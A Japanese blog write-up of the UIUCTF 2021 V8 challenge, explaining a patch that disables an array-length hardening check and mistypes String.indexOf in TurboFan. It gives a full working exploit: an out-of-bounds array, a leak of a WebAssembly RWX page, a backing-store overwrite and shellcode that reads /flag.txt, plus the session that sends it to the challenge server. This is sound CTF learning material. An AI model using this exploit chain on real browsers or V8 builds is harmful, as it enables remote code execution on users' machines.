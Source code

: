 ```yaml
---
layout: page
title: "UIUCTF2021 should've had a v8"
date: 2021-08-02 00:00:00 -0000
---
```


## まえおき
最近はv8とchrome問に明け暮れています。この週末にはv8の問題でしかもパッチは実質2行、さすがにそろそろ解いておきたいと思い、隙間時間で取り組みました。

結果としては12時間くらいオーバーして解けたので、理解をまとめて書き残したいと思います。

## パッチ

パッチ自体は色々とありますが、READMEによると結局変更は2か所だそうです。親切で助かります。

```diff
diff --git a/src/compiler/js-create-lowering.cc b/src/compiler/js-create-lowering.cc
index 899922a27f..aea23fe7ea 100644
--- a/src/compiler/js-create-lowering.cc
+++ b/src/compiler/js-create-lowering.cc         
@@ -681,7 +681,7 @@ Reduction JSCreateLowering::ReduceJSCreateArray(Node* node) {
       int capacity = static_cast<int>(length_type.Max());                                                                                                 
       // Replace length with a constant in order to protect against a potential
       // typer bug leading to length > capacity.
-      length = jsgraph()->Constant(capacity);
+      //length = jsgraph()->Constant(capacity);
       return ReduceNewArray(node, length, capacity, *initial_map, elements_kind,
                             allocation, slack_tracking_prediction);
     }
diff --git a/src/compiler/typer.cc b/src/compiler/typer.cc
index 0f18222236..0f76ad896e 100644
--- a/src/compiler/typer.cc
+++ b/src/compiler/typer.cc
@@ -2073,7 +2073,7 @@ Type Typer::Visitor::TypeStringFromCodePointAt(Node* node) {
 }

 Type Typer::Visitor::TypeStringIndexOf(Node* node) {
-  return Type::Range(-1.0, String::kMaxLength, zone());
+  return Type::Range(0, String::kMaxLength, zone());
 }

 Type Typer::Visitor::TypeStringLength(Node* node) {
```

前半のReduceJSCArrayの変更は、CVE2020-6383の[一連の流れ](https://bugs.chromium.org/p/chromium/issues/detail?id=1051017)のうちの[この修正](https://chromium.googlesource.com/v8/v8.git/+/6516b1ccbe6f549d2aa2fe24510f73eb3a33b41a%5E%21/#F0)において、直接バグに関わらないものの、念のため追加された修正です。この修正ではturbofanによって`Array()`が最適化されるときに、引数が固定長だった場合には決まったサイズで確保してチェックなしで渡していたところを、capacityにそろえています。これによって、万一lengthが大きくなった場合でも、capacityで抑えられるためにOOBな配列を渡してしまうことを防ぎます。

そして今回はこの修正が取り除かれています。つまり`Array()`を使ってOOBな配列を作ってくださいねという指示と受け取れます。

後半の`TypeStringIndexOf`への修正は、これによってturbofanの推定は、「String型に対するindexOfは-1が返ってこない」と解釈してしまうようになります。実際には文字列にない文字を指定することで-1が返りますので、ずれが生じます。

この問題は、このずれと、`Array()`のチェック無効を利用してOOBな配列を生成し、これを利用してコード実行を達成するという内容になっています。

## PoCの作成
コード実行を達成するためには、まずバグを利用してOOB配列を作る必要があります。必要な項目は以下の通りです。
- turbofanの推定では固定値が`Array()`に入るようにすること
- `str.indexOf()`の返り値-1になるときには巨大な値になること

最終的に以下のような関数で、OOB配列を作成することができました。

```js
function optme(){
        var str = "ABC";
        var bad = str.indexOf("a");
        bad = Math.min(bad, -0);    /*1*/
        bad = -bad;                 /*2*/
        bad *= 0x100;               /*3*/
        bad += 10;                  /*4*/
        var out = Array(bad);
        out[0] = 1.1;
        return [out, {}];
}
```

それぞれ実際の値：左と、推定値：右は以下のようになるはずです。

- 1のとき： -1, -0
- 2のとき： 1, 0
- 3のとき： 0x100, 0
- 4のとき： 0x10a, 10

turbofanでは`Array()`の引数が10になるので、これが入るような固定のサイズが用意されます。しかし実際にはもっと大きな値が入力され、OOB配列が手に入ります。

## 残ったもの
あとはやるだけです。（時間内にできませんでしたが。）
手順は以下の通りです。

1. double配列と、オブジェクト配列を利用してwasm_instance+0x60にあるrwxのアドレスをリーク
2. ArrayBufferのポインタをrwxに書き換える
3. rwxにシェルコードを載せる

wasm_instanceはポインタ圧縮範囲内、rwxは範囲外ですので、それぞれdouble arrayとArrayBufferを準備して、ポインタを書き換えます。
最終的なコードです。

```js
var buf = new ArrayBuffer(8);
var f64 = new Float64Array(buf);
var i64 = new BigInt64Array(buf);

function f2i(v) {
        f64[0] = v;
        return i64[0];
}
function i2f(v) {
        i64[0] = v;
        return f64[0];
}
function hex(v) { return "0x"+v.toString(16); }

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var shellcode = wasm_instance.exports.main;

function optme(){
        var str = "ABC";
        var bad = str.indexOf("a");
        bad = Math.min(bad, -0);
        bad = -bad;
        bad *= 0x100;
        bad += 10;
        var out = Array(bad);
        out[0] = 1.1;
        return [out, {}];
}

var oob = optme()[0];
for (let i = 0; i < 100000; i++) {
        oob = optme();
}

// get oob array
oob = optme()[0];

// prepare helpers
var reader = [1.1, 2.2, 3.3];
var objarray = [reader, wasm_instance];
var writer = new ArrayBuffer(8);
var f64_writer = new Float64Array(writer);

// addr of wasm_instance
leak = f2i(oob[35]) >> 32n;

// elem of "reader" points to wasm_instance+0x60 (have rwx addr)
oob[23] =  i2f((6n << 32n)+leak+0x60n);

// leak rwx address 
var rwx = f2i(reader[0]);
print("rwx: ", hex(rwx));

// length of "writer" 
oob[47] = i2f(0x20n);

// backing store ptr of "writer"  
oob[48] = i2f(rwx);

// cmd: /bin/sh -c "ls -la /; cat /flag.txt"
var sc = [-6.828527034422786e-229, 3.1048139649706616e-307, 1.9806662284999126e+161, 2.432065721434653e-152, 1.7058643057456533e+272, 5.73e-322, 0.0, 0.0, 0.0, 0.0, 0.0, 5.432309224871097e-309, 1.238567325343229e-308, 6.867659397698158e+246, -3.985959746423108e-73, -7.161105510817759e-74, 1.638223e-318];

// set shellcode to rwx
f64_writer.set(sc, 0);

shellcode();

// END
```

~~リモートでもローカルでも動きましたが、現在リモートはお休み中のようです。無念。フラグは見られたので良しとします。~~
動いていました。`diff.patch`を甘めに見ていたのが原因でした。ファイル内に"// END"の文字列があるとそこまでを読み取って実行してくれます。先にフラグが見られたのは、テンプレートを使っていたためです。これを清書をするときに消してしまったため進まなくなっていました。

```
$ cat myanswer.js |nc shouldve-had-a-v8.chal.uiuc.tf 1337
== proof-of-work: disabled ==
rwx:  0x301f107c8000
total 68
drwxr-xr-x  17 nobody nogroup 4096 Jul 29 16:45 .
drwxr-xr-x  17 nobody nogroup 4096 Jul 29 16:45 ..
lrwxrwxrwx   1 nobody nogroup    7 Jul 23 17:35 bin -> usr/bin
drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 boot
drwxr-xr-x   2 nobody nogroup 4096 Jul 23 17:38 dev
drwxr-xr-x  30 nobody nogroup 4096 Jul 28 00:07 etc
-rw-r--r--   1 nobody nogroup   29 Jul 29 16:42 flag.txt
drwxr-xr-x   3 nobody nogroup 4096 Jul 29 16:45 home
lrwxrwxrwx   1 nobody nogroup    7 Jul 23 17:35 lib -> usr/lib
lrwxrwxrwx   1 nobody nogroup    9 Jul 23 17:35 lib32 -> usr/lib32
lrwxrwxrwx   1 nobody nogroup    9 Jul 23 17:35 lib64 -> usr/lib64
lrwxrwxrwx   1 nobody nogroup   10 Jul 23 17:35 libx32 -> usr/libx32
drwxr-xr-x   2 nobody nogroup 4096 Jul 23 17:35 media
drwxr-xr-x   2 nobody nogroup 4096 Jul 23 17:35 mnt
drwxr-xr-x   2 nobody nogroup 4096 Jul 23 17:35 opt
dr-xr-xr-x 328 nobody nogroup    0 Aug  3 13:24 proc
drwx------   2 nobody nogroup 4096 Jul 23 17:38 root
drwxr-xr-x   5 nobody nogroup 4096 Jul 23 17:38 run
lrwxrwxrwx   1 nobody nogroup    8 Jul 23 17:35 sbin -> usr/sbin
drwxr-xr-x   2 nobody nogroup 4096 Jul 23 17:35 srv
drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 sys
drwxrwxrwt   2 nobody nogroup 4096 Jul 23 17:38 tmp
drwxr-xr-x  13 nobody nogroup 4096 Jul 23 17:35 usr
drwxr-xr-x  11 nobody nogroup 4096 Jul 23 17:38 var
uiuctf{v8_go_brrrr_e72df103}
```

初めてカンニングせずに解き切れました。

少し反省を書いておきます。

普段は`--shell`を使って、あとからアタッチしてアドレスを特定しながら作業しますが、今回は不覚にもデバッグ方法が思いつかなかったため、かなりしらみつぶしに作っていって、すごくつらかったです。そしてこれは、普通にgdbでv8を立ち上げればよかったのです。

思いついてから30分程度で解けました。ちゃんと落ち着いて考えましょう。

chrome問でも似たようなデバッガどうつなげばいいの問題があるので、だれか教えてください。

